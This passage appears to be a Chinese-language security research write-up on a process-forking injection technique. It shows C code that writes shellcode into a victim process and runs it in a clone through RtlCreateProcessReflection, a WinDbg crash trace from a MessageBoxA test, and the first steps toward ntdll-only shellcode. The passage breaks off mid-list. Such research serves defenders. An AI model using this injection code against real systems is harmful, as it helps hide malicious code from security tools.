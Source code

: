 ```
BOOL status = WriteProcessMemory(victimHandle, baseAddress, shellcode, shellcodeSize, &bytesWritten); 
#define RTL_CLONE_PROCESS_FLAGS_INHERIT_HANDLES 0x00000002 
HMODULE ntlib = LoadLibraryA(&#34;ntdll.dll&#34;); 
Rtl_CreateProcessReflection RtlCreateProcessReflection = (Rtl_CreateProcessReflection)GetProcAddress(ntlib, &#34;RtlCreateProcessReflection&#34;); 
T_RTLP_PROCESS_REFLECTION_REFLECTION_INFORMATION info = { 0 }; 

// Fork 目标并在克隆中执行 shellcode 库
NTSTATUS ret = RtlCreateProcessReflection(victimHandle, RTL_CLONE_PROCESS_FLAGS_INHERIT_HANDLES, baseAddress, NULL, NULL, &info);
```

  
  
第一次尝试这个 POC 时，我们使用了一个基本的 MessageBoxA shellcode，它导致了访问冲突异常：  
  

```
1:002> g
(6738.da4): Access violation - code c0000005 (first chance)

First-chance exceptions are reported before any exception handling.

This exception may be expected and handled.
USER32!GetDpiForCurrentProcess+0x14:

00007ff8`8b75719c 0fb798661b0000 movzx ebx,word ptr [rax+1B66h] ds:000002d3`6ef92ba6=????
1:002> k
# Child-SP RetAddr Call Site
00000000da`df9ffb10 00007ff8`8b7570c2 USER32!GetDpiForCurrentProcess+0x14
01000000da`df9ffb40 00007ff8`8b75703b USER32!ValidateDpiAwarenessContextEx+0x32
02000000da`df9ffb70 00007ff8`8b7bc2da USER32!SetThreadDpiAwarenessContext+0x4b
03000000da`df9ffba0 00007ff8`8b7bc0d8 USER32!MessageBoxTimeoutW+0x19a
04000000da`df9ffca0 00007ff8`8b7bbcee USER32!MessageBoxTimeoutA+0x108
05000000da`df9ffd00 000002d3`71bf0050 USER32!MessageBoxA+0x4e
06000000da`df9ffd40 00007ff8`8c210000 0x000002d3`71bf0050
```

  
  
该 shellcode 被有效地分叉并执行，但 USER32!MessageBoxA 的内部功能却无法在分叉过程中运行。  
  
简而言之，USER32!MessageBoxA 需要将 user32!gSharedInfo 结构映射到进程。  
  
我们的分叉进程缺少它，因为 user32!gSharedInfo 使用 ViewUnmap 设置明确映射到每个进程：  
  
“ViewUnmap：视图将不会映射到子进程中”  
  
这意味着，ViewUnmap 数据（例如 user32!gSharedInfo ）对克隆的子进程是隐藏的。为了克服这一障碍，我们的 POC 采取的方法是使用仅包含 NTDLL 的 Shellcode，它是完全独立的，因此在这些部分中没有任何依赖关系。  
  
我们使用https://github.com/rainerzufalldererste/windows_x64_shellcode_template作为模板来创建基于 ntdll 的自定义 shellcode，其功能如下：  
1. 从 LDR 检测 Ntdll API  
  
1. 使用 RtlInitUnicodeString、RtlAllocateHeap 和 RtlCreateProcessParametersEx 创建参数  
  
